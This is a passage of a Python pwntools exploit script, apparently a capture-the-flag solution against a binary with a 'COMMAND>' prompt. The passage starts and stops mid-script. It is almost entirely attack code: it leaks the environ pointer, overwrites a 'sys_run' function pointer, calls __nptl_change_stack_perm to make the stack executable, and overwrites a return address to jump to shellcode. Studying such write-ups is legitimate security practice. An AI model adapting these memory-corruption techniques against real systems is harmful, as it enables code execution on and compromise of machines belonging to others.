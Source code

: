 ```python
p2 += p64(0x89028)[:-1]
io.sendlineafter(b"COMMAND> ", p2)
io.send(b"\xae\x07\x01")

# leak environ
p = b"gang\x00aaa"
# p += b"A"*8#p64(0x89028)
p = p.ljust(0x10,b"A")
p += p64(environ)
# p += b"C"*7
# p += p64(_read)[:-1]
io.sendlineafter(b"COMMAND> ",p)


io.sendlineafter(b"COMMAND> ",b"echo")
io.readuntil(b"COMMANDS:")
io.readline()
environ = u64(io.readline(False).ljust(8,b"\x00"))
print("environ",hex(environ))
sc_addr = environ-552
ret_addr = environ-144-96
pthread = 0x8a480

# reset sys_run
p = b"gang\x00aaa"
p += b"A"*8#p64(0x89028)
# p = p.ljust(0x10,b"A")
p += p64(0x5aa90) #help
# p += b"C"*7
p += p64(0x10854)[:-1] #sys_run
io.sendlineafter(b"COMMAND> ",p)

io.sendlineafter(b"COMMAND> ",b"help")
sc = p64(0x8aa00) # junk writable addr
sc += b"B"*8
sc += p64(0x4ef00)# make stack executable __nptl_change_stack_perm
sc += p64(0x8a480)
io.sendlineafter(b'LOGIN: ',sc)

# arb write (overwrite ret addr for gad1)
address = 0x89008#0x8a990
p = b"gang\x00aaa"
p += b"A"*8#p64(0x89028)
# p = p.ljust(0x10,b"A")
p += p64(address)
# p += b"C"*7
p += p64(_read)[:-1]
io.sendlineafter(b"COMMAND> ",p)
sleep(1)
p2 = p64(ret_addr)
p2 += p64(ret_addr)[:-1]
io.sendlineafter(b"COMMAND> ", p2)
io.sendline(p64(sc_addr)[:-1])

# sc_addr = 0x0040007ffc70

# p = b"gang\x00aaa"
# # p += b"A"*8#p64(0x89028)
# p = p.ljust(0x10,b"A")
# p += p64(sc_addr)
# # p += b"C"*7
# # p += p64(_read)[:-1]
# io.sendlineafter(b"COMMAND> ",p)
```